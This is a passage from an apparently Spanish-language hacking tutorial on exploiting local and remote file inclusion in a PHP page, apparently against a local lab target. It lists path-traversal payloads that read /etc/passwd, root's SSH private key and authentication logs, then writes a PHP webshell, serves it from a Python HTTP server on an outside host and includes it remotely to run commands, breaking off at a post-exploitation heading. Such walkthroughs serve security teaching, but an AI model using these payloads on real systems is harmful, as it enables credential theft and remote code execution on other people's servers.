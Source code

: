 Si devuelve contenido del archivo **`/etc/passwd`**, es vulnerable a **LFI**.

------

## **📌 4.2: Leer Archivos del Servidor**

Podemos leer configuraciones críticas como:

### **💀 Usuarios del sistema**

```bash
http://localhost/file.php?file=../../../../../etc/passwd
```

### **💀 Claves SSH**

```bash
http://localhost/file.php?file=../../../../../root/.ssh/id_rsa
```

### **💀 Logs de autenticación**

```bash
http://localhost/file.php?file=../../../../../var/log/auth.log
```

------

# **🔹 Paso 5: Explotación de RFI (Remote File Inclusion)**

Si podemos incluir archivos remotos, podemos ejecutar código malicioso.

## **📌 5.1: Crear un archivo malicioso en Python**

Creamos un archivo PHP malicioso:

```bash
echo "<?php system('whoami'); ?>" > shell.php
```

Levantamos un servidor en Python:

```bash
python3 -m http.server 8080
```

Si `file.php` es vulnerable a **RFI**, intentamos incluirlo en la URL:

```bash
http://localhost/file.php?file=http://192.168.1.100:8080/shell.php
```

Si el servidor ejecuta `whoami`, significa que tenemos ejecución de comandos.

------

# **🔹 Paso 6: Post-Explotación y Persistencia**

